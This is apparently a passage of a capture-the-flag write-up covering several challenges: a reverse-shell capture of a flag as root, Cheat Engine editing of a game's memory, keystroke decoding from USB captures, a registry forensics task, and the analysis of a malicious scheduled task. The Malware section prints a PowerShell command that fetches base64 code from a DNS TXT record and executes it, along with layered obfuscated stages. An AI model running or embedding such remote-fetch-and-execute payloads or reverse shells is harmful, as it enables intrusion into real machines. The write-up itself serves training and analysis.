└─$ nc -nvlp 8080                      
listening on [any] 8080 ...
connect to [127.0.0.1] from (UNKNOWN) [127.0.0.1] 45026
bash: cannot set terminal process group (1): Inappropriate ioctl for device
bash: no job control in this shell
root@zippy-96a0d6c8c74cd74f-67cd7dff49-8cfm5:/app# id
id
uid=0(root) gid=0(root) groups=0(root)
root@zippy-96a0d6c8c74cd74f-67cd7dff49-8cfm5:/app# cat flag.txt
cat flag.txt
flag{a074eb7973c4c718790baefc096654dd}
```

## Reverse Engineering
### Knight's Quest
>An adventurer is YOU! Play Knight's Quest, beat the three monsters, and claim the flag! Very straightforward with no surprises, no sir-ee, no surprises here lmao
>
>Author: @HuskyHacks



A game in the Reverse Engineering category surely needs *extra assistance* to pass. [CheatEngine](https://www.cheatengine.org/) is my go-to for editing game values in real time, although if you're a wizard you might be able to do something in `gdb` or other command-line tools.



It looks like icons aren't showing properly for me, but we see life values at XX/99, presumably attack value at 10 and defense value at 50. Since the life value is changing on every turn, it is pretty easy to identify this value in Cheat Engine. First search for the current value, 94:



Attack again, and hp is now 89:



Use "Next Scan" on new hp value, 89:



From this point there are only a few values we can check 1 by 1. Adding all of them to our table, we can start by editing the top value to `9999`:



We need to refresh the game display by running another attack



We didn't lose HP, but this may be due to the enemy spider dying. As we don't see our hp value at 9999, I'm inclined to believe this is not the HP value. Moving to the 2nd:


Making an attack:



Our HP continues to decrease. It looks like the lowest number is pointing to hp. We must check, so setting this value to 9999:



And now we have a massive health pool!



Unfortunately, a quick look at the final enemy and I see our "infinite" health is probably not enough:



I may still instantly lose if the attack is more than my current hp, but also notable is that 999999999 health means i need to attack 100000000 times to win. So we need to edit the attack value. This value wasn't changing throughout the whole game, so we cannot do what was used for HP. Since it's very likely that all stat values are stored nearby, I look for the `10` value closest to our HP value:



For a simple program like this, it's probably fine to edit multiple addresses at the same time. Editing the wrong values can naturally cause a game crash, so I decided to only edit this value. It works!



Now we add the password to the curl command:
```
$curl -X POST -H "Content-Type: application/json" -d '{"password":"hmafgAhAalqmQABBOAZtP3OWFegsQDAB"}' http://challenge.ctf.games:31045/submit  
{"flag":"flag{40b5b7e5395ee921cbbc804d4350b9c1}"}
```

----

## Forensics

### Keyboard Junkie
>My friend wouldn't shut up about his new keyboard, so...
>
>Author: @JohnHammond

This opens in `Wireshark`:



It is recording USB communications. There are multiple objects, but we can see in Device Descriptor that `1.9.X` corresponds with a `KB212-B Quiet Key Keyboard`:



Inspecting the data that is sourced from this device looks like we can see the individual keystrokes. Likely the situation is that the user typed out the flag, and the challenge is decoding the keystroke inputs back into the flag. When investigating the data each keystroke belongs to, I found [this blog](https://blog.stayontarget.org/2019/03/decoding-mixed-case-usb-keystrokes-from.html) that also gives a nice little decoder python script we can use! First is using `tshark` to isolate the data:
```
$ tshark -r keyboard_junkie -T fields -e usb.capdata | tr -d : > keystrokes.txt  
** (tshark:888772) 14:00:47.199970 [Epan WARNING] /usr/src/debug/wireshark/wireshark-4.4.1/epan/value_string.c:471 -- _try_val_to_str_ext_init(): Extended value string 'usb_products_vals' forced to fall back to linear search:  
 entry 20704, value 645005387 [0x2672004b] < previous entry, value 645005389 [0x2672004d]  
 
$ head keystrokes.txt


800000

```
There was a lot of empty space that messes up with this, but you can clear in vim with `:g/^$/d`.
```
$ head keystrokes.txt    
800000  
100000  
0000160000000000  
0000000000000000  
0000120000000000  
0000000000000000  
00002c0000000000  
0000000000000000  
0000170000000000  
0000000000000000
```
The first 2 lines have an apparently unusual format, but the python script works regardless:
```
$ python convertkeys.py keystrokes.txt    
sospacethespaceanswerspaceisspaceflag{f7733e0093b7d281dd0a30fcf34a9634}
```
Looks like the keystrokes were:
```
so the answer is flag{f7733e0093b7d281dd0a30fcf34a9634}
```


-----
### Zimmer Down

>A user interacted with a suspicious file on one of our hosts.  
The only thing we managed to grab was the user's registry hive.  
Are they hiding any secrets?
>
>Author: @sudo_Rem

We are supplied `NTUSER.DAT` file, and the title is "Zimmer", a very clear reference to the forensics toolkit [Eric Zimmerman's Tools](https://ericzimmerman.github.io/#!index.md). 

There is a particular relevant tool, the `Registry Explorer` that we can use to navigate the NTUSER file. With the file opened, navigating to the bookmarks:


Under Recent Docs, we see interesting entries. In particular, an encoded filename:



The extension labels it as `Base 62`, and using CyberChef we can decode it into the flag:



`flag{4b676ccc1070be66b1a15dB601c8d500}`

-------------
## Malware

### Palimpsest
>Our IT department was setting up a new workstation and started encountering some strange errors while installing software.  
The technician noticed a strange scheduled task and luckily backed it up and grabbed some log files before wiping the machine!  
Can you figure out what's going on?  
**We've included the exported scheduled task and log files below.**  
The archive password is `infected-palimpsest`.
>
>Author: Adam Rice (@adam.huntress)

We get an event log `.evtx` file for some reason, and the malicious file. It is an `xml` file, and in the Actions, we can see a small powershell command that runs output from an external website:
```xml
<...SNIP...>
<Actions Context="Author">
  <Exec>
    <Command>powershell.exe</Command>
    <Arguments>-ExecutionPolicy Bypass -Command "Invoke-Expression ([System.Text.Encoding]::UTF8.GetString([System.Convert]::FromBase64String((Resolve-DnsName 5aa456e4dbed10b.pyrchdata.com -Type txt | Select-Object -ExpandPropertyStrings))))"</Arguments>
  </Exec>
</Actions>
```
We can run this in powershell. To avoid running potentially malicious code, we replace `Invoke-Expression` with `Write-Host`:
```
PS C:\Users\Kevin > Write-Host ([System.Text.Encoding]::UTF8.GetString([System.Convert]::FromBase64String((Resolve-DnsName 5aa456e4dbed10b.pyrchdata.com -Type txt | Select-Object -ExpandProperty Strings))))
.( $SHElliD[1]+$SHElLid[13]+'X')( neW-oBJECT Io.ComPreSsION.dEflATeStReAm([sySTem.IO.mEMORYsTREAM][sYstEM.cOnveRT]::FROmBAsE64strinG( 'ZVbLatxQDP0VLVpmJtwJ9217mT5oCyWB0l0IJaVZJJAWsiiBtv9e6Ui69rQLG19L1uPoSPL5fv/u7vPx5+3T/cXXj29pd/b47elsdzi/vH28uy4hpZBvjg9X9993u8N+f/36/cXT9c0N7SnlRCHFhQKlOPM9x9CmQDXKi8iy3MLSWSBXTXyFVFitUhCVNLHGRKHMQb8vmS8+JLZbsghgH8/QTImf2gLDKbN262wni5gN6xu54DuLi0JDocmnJBp8mqCQUoe8ScDZzCaJhD33iJBcYekiR65Ns5bQSG56ShDKPcUJejWYVNXEB7kTJNfLxgXBh0UjRw3FvpxD5ngUXvEAjJFdlBrBYZ4UPwdTXBCCw0GBFYGCCUeCKBmkBNAqy5rGlIErnZjXanuxPEAr0X9G+aE2rVNLoksG/FqYWdXIigGHeFEl2tYpWAG7gwwkUqhsQ0pNrUJRYRBaZUhABtbjcNikOOwxiNFWyGupItR6I7ECBWEqDDjYbIA6qoJTkuzwEMRcni1oMVeMT4JFQZSFlJ6V8ZJCml/Lsyh2jBrLxU+bkS/LBeUqpGuOgtyUsOy1G0ywIxlJ2LXoS4FdBIwKAZJ51Eje8auGIi4GzxwU8aZIgilKqiUMSjmPRKC9r+0qoqiZT25DqWBdJLVnlKpzzdqWAApj0/MoBQ0OahsrN1sY7a4sacoFWjlCq+NUlQcVMHMmPTujND+lNXkii7UNUlxzYrpLsqopwEk+Gg9K0yV8pWQPRgCpovPacmSG1mm0lVtYaMt/Aak4PZd5TIYyO2NtPnEXzDYYnchILgYrOEgoGCIsb3f/OmtGqWmFc9T+BLercwmnPCuJqETFjsmutbF4rNKkEPFTKR4U+jIq9DUZGRIGHwsaIKGebTsgQo+kTZCWyd6X4gyK7mZ2cFZMSlQqqmAZbFAVkDebQvLopRfXTBcFTvOKju/qQSJfDViLjBW29sRCow9AmM3OyjZr1slWfNoCq8F6nYcNk59BoTHxZOA1lWKQJxvFRZsv6SzB8knlNAMZRroDED8WwUS2SRedZSQjZcFMItu7Y0+CcjH/C6wDowGf7HbaLnfbmpt20hnpO8hzGsvMoST/evYNNiI4xbcuTrq+dtbYNrIlvNvWwQJQtl24gs52ik1OA922TKfD75f0i/BDJL9DL77Q8dXz1addfG5vdoc/dDg+/PhwyX9NfwE=' ) ,[Io.coMPREssIon.COMPreSSiONMoDE]::dEcompRESs)| forEacH-obJECT {neW-oBJECT sysTEm.IO.STREAMREaDeR( $_ , [TExT.encoDiNG]::asCii ) }| foreACH-OBjECT {$_.REAdToEnd() } )
```
There's more execution. There is base64 string, but at the end we can see compression/decompression is involved. We could potentially decode with CyberChef, or we can use `Write-Host` again:
```
Write-Host ( $SHElliD[1]
<...SNIP...>
ieX .((GeT-variAbLE '*mdr*').Name[3,11,2]-jOin'')(([CHAr[]] ( 121 ,109 , 108 , 20,57, 40, 100 ,125,96 , 6 , 41, 4,13, 24  
,0, 117,127 ,38,108 , 32, 38,111 ,32 ,38 ,109,32 ,127 ,112 ,59,125,122, 56, 122 ,113,122, 52, 50 ,122, 113 , 122 ,115 ,  
<...SNIP...>
13 , 122 ,56,122 , 116, 113 ,122 ,30,122 , 116 ,115,20 , 51, 43, 50, 54 ,56 ,117 ,116 )|% { [CHAr] ( $_ -BxOR'0x5D')} )-  
joIN'')
```
There is yet another more obfuscation. For the third time, we can use `Write-Host` to deobfuscate:
```
iex $01Idu9 =[tYPE]("{1}{2}{0}"-f 'e','io','.fiL') ; ${a} = 40000..65000; ${b} = $01Idu9::("{1}{0}{2}" -f 'ri',("{1}{0}  
" -f'penW','O'),'te').Invoke((Join-Path -Path ${EnV:a`P`p`DAta} -ChildPath flag.mp4)); Get-EventLog -LogName ("{0}{2}{1}  
{3}" -f 'Ap','licati','p','on') -Source ("{0}{2}{1}"-f'mslnstal','er','l') | ? { ${A} -contains ${_}."In`st`AnCe`iD" } |  
Sort-Object Index | % { ${C} = ${_}."d`ATa"; ${b}.("{1}{0}"-f 'ite','Wr').Invoke(${C}, 0, ${C}."LeN`GTh") }; ${b}.("{1}  
{0}" -f ("{0}{1}" -f 'los','e'),'C').Invoke()
```
While it is still rather obfuscated, there are Invoke actions here so the write-host method will not work so well. Fortunately, we can pretty easily convert some of the obfuscations just by reading. For example, `("{0}{2}{1}"-f'mslnstal','er','l')` describes a read order "1st, 3rd, 2nd": `mslnstaller`. I sent this to ChatGPT to improve the readability, and it turned out quite well:
```
# Define the file type
$fileType = [Type]io.file

# Define the range of Instance IDs
$instanceIds = 40000..65000

# Open a file for writing
$fileStream = $fileType::OpenWrite.Invoke((Join-Path -Path $Env:AppData -ChildPath 'flag.mp4'))

# Get application event log entries from the source 'mslnstaller'
Get-EventLog -LogName Application -Source mslnstaller |
    Where-Object { $instanceIds -contains $_.InstanceID } |  # Filter by Instance ID
    Sort-Object Index |  # Sort by Index
    ForEach-Object { 
        $fileStream.Write.Invoke($_.Data, 0, $_.Data.Length)  # Write data to the file
    }

# Close the file stream
$fileStream.Close.Invoke()
```
There are even comments describing the behavior. In essence, a flag.mp4 file has been written to the `Application` event log over Event ID's 40000 - 65000. So to extract this data, we must separate the events. In the event viewer, we can sort by Event IDs, and select all events from the highest (64578) to the last 40000 event:



By saving as `.xml`, the event data will be in plaintext. I found this out the hard way, but after cross-checking [magic byte values for .mp4](https://en.wikipedia.org/wiki/List_of_file_signatures), you can find out that the correct order should be highest Event ID value first, in descending order. As for isolating the binary data, I opted for `CyberChef` replace functions. First, remove the beginning xml information manually:



Next, a regex to remove the xml format between binary sections:
```
</Binary>.{1,750}<Binary>
```
Since the binary sections are significantly larger than the xml between, we can look for the start/end characters and just replace a range as long as the range is smaller than the binary.


Lastly there is extra xml format at the end of the input I just removed manually. Now we can convert from hex, and save as an .mp4 file:



Now we can play the mp4 file and get the flag!


`flag{2b7dff19886372f1z85ca267eb15zabe}`
